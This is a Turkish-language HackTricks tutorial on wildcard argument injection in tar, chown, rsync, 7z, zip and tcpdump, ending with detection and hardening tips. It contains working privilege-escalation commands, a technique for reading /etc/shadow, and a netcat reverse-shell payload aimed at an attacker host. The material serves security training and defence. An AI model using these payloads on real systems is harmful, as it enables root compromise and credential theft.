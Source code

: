 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **argüman enjeksiyonu**, ayrıcalıklı bir betik `tar`, `chown`, `rsync`, `zip`, `7z`, … gibi bir Unix ikili dosyasını, tırnak işareti olmadan bir joker karakterle `*` çalıştırdığında gerçekleşir. 
> Shell, joker karakteri **ikili dosyayı çalıştırmadan önce** genişlettiğinden, çalışma dizininde dosya oluşturabilen bir saldırgan, `-` ile başlayan dosya adları oluşturabilir, böylece bunlar **veri yerine seçenekler** olarak yorumlanır ve etkili bir şekilde rastgele bayraklar veya hatta komutlar gizlenebilir. 
> Bu sayfa, 2023-2025 için en yararlı ilkelere, son araştırmalara ve modern tespitlere dair bilgileri toplar.

## chown / chmod

`--reference` bayrağını kötüye kullanarak **rastgele bir dosyanın sahipliğini/grubunu veya izin bitlerini kopyalayabilirsiniz**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Kök daha sonra şöyle bir şey çalıştırdığında:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` enjekte edilir, bu da `/root/secret``file`'ın sahiplik/izinlerini *tüm* eşleşen dosyaların miras almasına neden olur.

*PoC & araç*: [`wildpwn`](https://github.com/localh0t/wildpwn) (birleşik saldırı).
Ayrıntılar için klasik DefenseCode makalesine de bakın.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** özelliğini kötüye kullanarak rastgele komutlar çalıştırın:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Bir kez root çalıştırdığında e.g. `tar -czf /root/backup.tgz *`, `shell.sh` root olarak çalıştırılır.

### bsdtar / macOS 14+

Son macOS'taki varsayılan `tar` (`libarchive` tabanlı) `--checkpoint`'i *uygulamaz*, ancak dış bir sıkıştırıcı belirtmenize olanak tanıyan **--use-compress-program** bayrağı ile yine de kod yürütme elde edebilirsiniz.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Yetkili bir betik `tar -cf backup.tar *` çalıştırdığında, `/bin/sh` başlatılacaktır.

---

## rsync

`rsync`, `-e` veya `--rsync-path` ile başlayan komut satırı bayrakları aracılığıyla uzak kabuğu veya hatta uzak ikili dosyayı geçersiz kılmanıza olanak tanır:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Eğer root daha sonra dizini `rsync -az * backup:/srv/` ile arşivlerse, enjekte edilen bayrak uzaktaki tarafınızda shell'inizi başlatır.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` modu).

---

## 7-Zip / 7z / 7za

Ayrıca, ayrıcalıklı script *savunmacı* bir şekilde joker karakteri `--` ile öne eklese bile (seçenek ayrıştırmasını durdurmak için), 7-Zip formatı **dosya liste dosyalarını** dosya adını `@` ile öne ekleyerek destekler. Bunu bir symlink ile birleştirmek, *rastgele dosyaları dışarı aktarmanıza* olanak tanır:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Eğer root, şöyle bir şey çalıştırırsa:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip, `root.txt` dosyasını (→ `/etc/shadow`) bir dosya listesi olarak okumaya çalışacak ve çıkacaktır, **içeriği stderr'ye yazdıracaktır**.

---

## zip

`zip`, arşiv test edileceğinde sistem kabuğuna *kelimesi kelimesine* iletilen `--unzip-command` bayrağını destekler:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Ekstra ikili dosyalar için wildcard enjeksiyonuna karşı hassasiyet (2023-2025 hızlı listesi)

Aşağıdaki komutlar modern CTF'lerde ve gerçek ortamlarda kötüye kullanılmıştır. Payload her zaman daha sonra bir wildcard ile işlenecek yazılabilir bir dizin içinde bir *dosya adı* olarak oluşturulur:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Dosya içeriğini oku |
| `flock` | `-c <cmd>` | Komutu çalıştır |
| `git`   | `-c core.sshCommand=<cmd>` | SSH üzerinden git ile komut çalıştırma |
| `scp`   | `-S <cmd>` | ssh yerine keyfi bir program başlat |

Bu primitifler *tar/rsync/zip* klasiklerinden daha az yaygındır ancak avlanırken kontrol edilmeye değer.

---

## tcpdump döngü kancaları (-G/-W/-z): argv enjeksiyonu ile RCE

Kısıtlı bir shell veya satıcı sarmalayıcı, kullanıcı tarafından kontrol edilen alanları (örneğin, "dosya adı" parametresi) katmanlaştırarak bir `tcpdump` komut satırı oluşturduğunda, ekstra `tcpdump` bayraklarını gizlice ekleyebilirsiniz. `-G` (zaman tabanlı döngü), `-W` (dosya sayısını sınırlama) ve `-z <cmd>` (döngü sonrası komut) kombinasyonu, tcpdump'ı çalıştıran kullanıcı olarak keyfi komut çalıştırma sağlar (genellikle cihazlarda root).

Ön koşullar:

- `tcpdump`'a geçirilen `argv`'yi etkileyebilirsiniz (örneğin, `/debug/tcpdump --filter=... --file-name=<HERE>` aracılığıyla).
- Sarmalayıcı, dosya adı alanındaki boşlukları veya `-` ile başlayan token'ları temizlemez.

Klasik PoC (yazılabilir bir yoldan ters shell scripti çalıştırır):
```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
--file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```
Detaylar:

- `-G 1 -W 1`, ilk eşleşen paket sonrası hemen döndürmeyi zorlar.
- `-z <cmd>` her döngüde bir kez post-rotate komutunu çalıştırır. Birçok yapı `<cmd> <savefile>` şeklinde çalıştırır. Eğer `<cmd>` bir script/yorumlayıcı ise, argüman işleme yükleminizle eşleştiğinden emin olun.

Kaldırılamayan medya varyantları:

- Dosya yazmak için başka bir ilkeliniz varsa (örneğin, çıktı yönlendirmesine izin veren ayrı bir komut sarmalayıcı), scriptinizi bilinen bir yola bırakın ve platform anlamına bağlı olarak `-z /bin/sh /path/script.sh` veya `-z /path/script.sh` komutunu tetikleyin.
- Bazı satıcı sarmalayıcıları, saldırganın kontrol edebileceği konumlara döner. Eğer döndürülen yolu etkileyebiliyorsanız (sembolik bağlantı/dizin geçişi), `-z`'yi tamamen kontrol ettiğiniz içeriği çalıştıracak şekilde yönlendirebilirsiniz.

Satıcılar için sertleştirme ipuçları:

- Kullanıcı kontrolündeki dizeleri `tcpdump`'a (veya herhangi bir araca) doğrudan geçmeyin, sıkı izin listeleri olmadan. Alıntı yapın ve doğrulayın.
- Sarmalayıcılarda `-z` işlevselliğini açığa çıkarmayın; tcpdump'ı sabit güvenli bir şablonla çalıştırın ve ek bayrakları tamamen yasaklayın.
- tcpdump ayrıcalıklarını düşürün (sadece cap_net_admin/cap_net_raw) veya AppArmor/SELinux kısıtlaması ile ayrıcalıksız bir kullanıcı altında çalıştırın.

## Tespit & Sertleştirme

1. **Kritik scriptlerde shell globbing'i devre dışı bırakın**: `set -f` (`set -o noglob`) joker karakter genişlemesini engeller.
2. **Argümanları alıntılayın veya kaçırın**: `tar -czf "$dst" -- *` *güvenli değildir* — `find . -type f -print0 | xargs -0 tar -czf "$dst"` kullanmayı tercih edin.
3. **Açık yollar**: `*` yerine `/var/www/html/*.log` kullanın, böylece saldırganlar `-` ile başlayan kardeş dosyalar oluşturamaz.
4. **En az ayrıcalık**: Yedekleme/bakım işlerini mümkün olduğunca root yerine ayrıcalıksız bir hizmet hesabı olarak çalıştırın.
5. **İzleme**: Elastic’in önceden oluşturulmuş kuralı *Wildcard Injection ile Potansiyel Shell* `tar --checkpoint=*`, `rsync -e*` veya `zip --unzip-command` ile hemen ardından bir shell çocuk süreci arar. EQL sorgusu diğer EDR'ler için uyarlanabilir.

---

## Referanslar

* Elastic Security – Potansiyel Shell ile Wildcard Injection Tespit Edildi kuralı (son güncelleme 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (18 Aralık 2024)
* GTFOBins – [tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
* FiberGateway GR241AG – [Full Exploit Chain](https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/)

{{#include ../../banners/hacktricks-training.md}}
